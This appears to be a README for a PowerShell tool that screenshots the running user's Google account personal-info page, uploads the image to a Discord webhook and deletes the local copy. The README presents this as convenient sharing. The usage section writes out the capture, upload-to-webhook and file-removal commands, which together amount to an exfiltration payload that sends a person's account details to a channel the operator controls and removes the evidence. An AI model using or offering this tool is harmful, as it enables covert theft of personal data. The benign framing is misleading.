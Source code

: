 # PowerShell Email Information Capture and Discord Upload
![](https://img.shields.io/badge/-PowerShell-blue)

This PowerShell script allows you to capture information from a specified URL, take a screenshot of it, and upload it to a Discord channel using a webhook. The script is designed to help you easily share information from a specific webpage to your Discord server.

## Prerequisites

Before running the script, ensure you have the following:

1. PowerShell (v5.1 or higher) installed on your system.
2. A Discord account and the webhook URL of the channel where you want to upload the information. If you don't have a webhook URL, follow these steps to create one:
   - Go to your Discord server settings.
   - Navigate to "Integrations" > "Webhooks" and click on "Create Webhook."
   - Customize the webhook as needed and copy the webhook URL.

## Usage

1. **Get-EmailInfo Function:**

   This function captures a screenshot of a specified URL, in this case, "https://myaccount.google.com/personal-info?hl=en," but you can modify the URL as needed. The screenshot is saved temporarily as "CaliShot.png" in the system's temporary folder.

   ```powershell
   Get-EmailInfo
   ```

2. **Upload-Discord Function:**

   This function is used to upload either a screenshot file or text to the Discord channel using the webhook URL.

   - To upload a text message:

     ```powershell
     Upload-Discord -webhookUrl 'YOUR DISCORD WEBHOOK HERE' -text 'Your message here'
     ```

   - To upload a screenshot file:

     ```powershell
     $filePath = Get-EmailInfo
     Upload-Discord -webhookUrl 'YOUR DISCORD WEBHOOK HERE' -file $filePath | Out-Null
     Remove-Item -Path $filePath -Force
     ```

   Uncomment and use one of the options above as per your requirement.

## Important Notes

- The script uses the default browser to open the target URL. Ensure you have a compatible web browser installed on your system.

- The screenshot will be visible to the script's executing user, so avoid running the script in a visible session if sensitive information is being captured.

- **[Caution]** Be cautious with the use of this script, especially when handling sensitive data. Always ensure you have appropriate permissions to access and share the content.

## Disclaimer

This script is provided as-is and without warranty. Use it at your own risk. The authors are not responsible for any direct or indirect damages caused by the use of this script.

**Note:** Uncomment the last section of the script to capture the screenshot, upload it to Discord, and then delete the temporary file.

Feel free to contribute and improve this script by creating pull requests. If you encounter any issues or have suggestions for improvements, please [open an issue](https://github.com/yourusername/yourrepository/issues) on the GitHub repository.

Happy coding! 😊
